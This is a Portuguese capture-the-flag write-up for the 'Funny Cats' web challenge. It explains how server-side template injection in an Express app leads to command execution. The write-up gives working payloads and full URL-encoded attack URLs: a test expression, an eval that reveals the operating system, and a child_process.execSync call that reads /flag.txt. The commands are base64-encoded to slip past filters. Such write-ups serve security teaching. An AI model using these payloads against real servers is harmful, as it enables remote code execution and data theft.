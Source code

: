 # **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Este documento descreve uma exploração bem-sucedida de uma vulnerabilidade Server-Side Template Injection (SSTI) em um servidor Express, com o objetivo de acessar a flag escondida no arquivo `/flag.txt`. A vulnerabilidade ocorre devido ao processamento inadequado de entradas de usuários, permitindo a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O servidor em questão exibe imagens de gatos e permite que os usuários insiram um nome de gato por meio de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. O site não realiza a devida sanitização da entrada do usuário, o que possibilita a exploração através de injeções de template.

A vulnerabilidade SSTI permite que código malicioso seja executado no lado do servidor, o que pode ser explorado para ler arquivos ou executar comandos arbitrários.

---

## **3. Exploração da SSTI**

A exploração foi realizada em três etapas principais: injeção de código básico, identificação do sistema operacional do servidor e, finalmente, leitura do conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Inicialmente, testamos a injeção com uma expressão simples para avaliar o comportamento do servidor.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

A codificação em URL do payload foi realizada para evitar problemas com caracteres especiais e filtros de segurança.

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

A URL completa com a injeção foi construída da seguinte forma:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Resultado:**

O servidor processou a injeção e retornou o resultado da multiplicação, confirmando a execução de código no lado servidor.

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Para avançar na exploração, utilizamos a função `eval` junto com um buffer codificado em base64 para executar um comando que revela o sistema operacional do servidor. O comando utilizado foi `os.platform()`, que nos deu informações sobre a plataforma.

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

A codificação do payload para URL ficou assim:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL completa com o payload para a identificação do sistema operacional foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou a plataforma do sistema operacional, confirmando a execução do comando.

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

A etapa final consistiu em acessar o arquivo `/flag.txt` do servidor. Utilizamos o módulo `child_process` do Node.js para executar o comando `cat /flag.txt` e obter o conteúdo do arquivo. O comando foi codificado em base64 para evitar interferências de filtros de segurança.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

O payload foi novamente URL-encoded para garantir o correto processamento no servidor:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL com a injeção para leitura do conteúdo do arquivo `/flag.txt` foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou o conteúdo do arquivo `/flag.txt`, revelando a flag.

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

A exploração da vulnerabilidade SSTI no servidor Express foi concluída com sucesso. Através da injeção de código malicioso, foi possível:

1. Verificar o processamento inadequado de entradas do usuário pelo servidor.
2. Identificar o sistema operacional do servidor.
3. Executar comandos arbitrários para acessar o conteúdo do arquivo `/flag.txt` e obter a flag.

Essa exploração destaca a importância de validar e sanitizar corretamente as entradas dos usuários para prevenir vulnerabilidades SSTI em aplicações web.

---
